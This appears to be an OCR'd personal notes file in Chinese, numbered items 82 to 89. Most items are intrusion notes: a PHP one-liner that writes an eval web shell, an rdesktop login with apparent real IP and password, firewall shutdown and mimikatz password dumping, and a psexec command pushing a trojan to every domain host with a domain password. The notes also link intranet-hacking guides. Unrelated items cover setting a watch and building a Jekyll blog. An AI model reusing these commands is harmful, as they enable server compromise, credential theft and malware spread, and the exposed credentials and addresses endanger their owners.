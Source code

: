 82.php写shell: cmd=fputs(fopen('chk.php','w'),'<?php @eval($_POST[nihao]); ?>');
   其中nihao的位置不能有''或"",而且fputs的第二个参数只能用单引号包住

83.rdesktop -u administrator -p nihao103.240.203.6:3389

84.到最外面调时间,拉到中间没到最外面调星期和日期(中间时,顺时针调星期,逆时针调  
   日期)

85.windows 2003,stop firewall service and policy command:net stop sharedaccess, net stop policyagent
   load  mimikatz
   mimikatz_command -f sekurlsa::searchPasswords
   在mimikatz抓密码时,nishang中的ps1脚本不好用时,直接用原版的mimikatz.exe
    -slave 103.240.203.6 200  202.177.192.16 3389
    local:-listen 

    mimikatz更多用法:
    http://www.07net01.com/2016/02/1280295.html

86.sa权限上传文件九种方法:http://www.csdn123.com/html/20130308/49/019024fd66e9a1a793e4344a6cc47175.htm

87.内网渗透:
    http://www.pojie567.com/blog/?post=5186
    http://www.1990day.com/regeorg-proxychains-gold-partner/
    http://www.codersec.net/%E5%AF%B9%E5%9B%BD%E5%A4%96%E6%9F%90%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F%E7%9A%84%E4%B8%80%E6%AC%A1%E5%B0%8F%E7%BB%93/
    http://netsecurity.51cto.com/art/201602/506072.htm 使用Quarks PwDump获取域控密码
    https://www.91ri.org/tag/neiwang-hacker
    http://drops.wooyun.org/tips/6617   导出当前域内所有用户hash的技术整理
    http://www.objectif-securite.ch/ophcrack.php   windows hashes crack
    http://cracer.com/?p=1247  拿下域控后批量种马:psexec.exe @pc.txt -u ABIMAQ\Administrator -p k78m90 -c c:\kav\2009.exe
    (第一次运行psexec.exe可以带/accepteula参数防止弹出确定的界面)
    http://drops.wooyun.org/tips/12021   拿下域控权限
   快速找出dc:
            dsquery server(best)
            nslookup -type=SRV _ldap._tcp.baidu.com
            netdom query fsmo
            net group "domain controllers" /domain

88.ipc$:http://www.cnblogs.com/lhws/p/4024208.htm

89.github pages+jekyll搭建个人博客:
        https://www.zhihu.com/question/20223939
        https://github.com/jacobtomlinson/carte-noire
        http://www.tuicool.com/articles/RZbEV3
        https://help.github.com/articles/configuring-jekyll/
        https://help.github.com/articles/setting-up-your-github-pages-site-locally-with-jekyll/
        http://jekyllrb.com/docs/github-pages/#project-page-url-structure
        http://jekyllcn.com/
        https://learnetto.com/blog/tutorial-how-to-host-your-websites-for-free-using-github-pages
        http://pikipity.github.io/blog/kramdown-syntax-chinese-1.html   kramdown语法
        http://pikipity.github.io/blog/kramdown-syntax-chinese-2.html   kramdown语法
        http://platinhom.gitcafe.io/2015/11/06/Kramdown-note/           kramdown语法
        https://ruby-china.org/topics/14005                             web中文字体应用指南(i use 文泉驿等宽正黑 )
        http://platinhom.github.io/2015/06/06/Markdown-note/
        http://xinghuacai.github.io
        http://reyhan.org/2013/03/jekyll-archive-without-plugins.html   jekyll archive by year
        myblog/posts-by-categories.html                                 jekyll archive by categories
        http://www.ithome.com/html/it/195970.htm                        add music to my pages
